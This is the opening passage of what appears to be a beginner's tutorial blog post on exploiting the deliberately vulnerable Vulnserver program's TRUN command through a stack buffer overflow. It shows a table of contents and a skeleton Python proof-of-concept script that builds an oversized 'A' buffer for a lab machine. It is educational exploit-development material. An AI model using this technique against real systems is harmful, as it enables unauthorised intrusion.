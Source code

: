 ```yaml
---
title: "Vulnserver Part 1 - TRUN"
published: 2021-09-07T12:01:00-04:00
updated: 2021-09-07T12:01:00-04:00
categories:
  - writeup
tags:
  - vulnserver
  - windows
  - bufferoverflow
  - binary
  - exploit
  - bof
summary: In this first part of our Vulnserver series we will take a look at the TRUN command. It offers a very simple Stack-based Buffer Overflow with a little bit of fuzzing... 
---
```


In this first part of [our Vulnserver series](/posts/vulnserver_0_overview.html) we will take a look at the TRUN command. It offers a very simple Stack-based Buffer Overflow with a little bit of fuzzing.

I'll go into a little more detail in this first tutorial, as some concepts might be new to beginners.

1. [AAAA? Not today!](#aaaa-not-today)
2. [Fuzzing for a Crash](#fuzzing-for-a-crash)
3. [Proof of Concept](#proof-of-concept)
4. [EIP Offset](#eip-offset)
5. [Bad Characters](#bad-characters)
6. [JMP ESP](#jmp-esp)
7. [Pop Calc](#pop-calc)
8. [Reverse Shell](#reverse-shell)


## AAAA? Not today!

This is the basic anatomy of a buffer overflow Proof of Concept:

```python
#!/usr/bin/env python3
# vanilla buffer overflow example
# this won't work here!
import socket

target_ip = "10.0.2.74" # ip address of your windows machine
target_port = 9999

size = 2048

# create a TCP socket connection to the target
s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# read the greeting / banner
banner = s.recv(1024)
print(banner)

# Prepare the payload
buf = b""
buf += b"TRUN "
buf += b"A" * size
buf += b"\n"

print("Sending evil buffer...")
```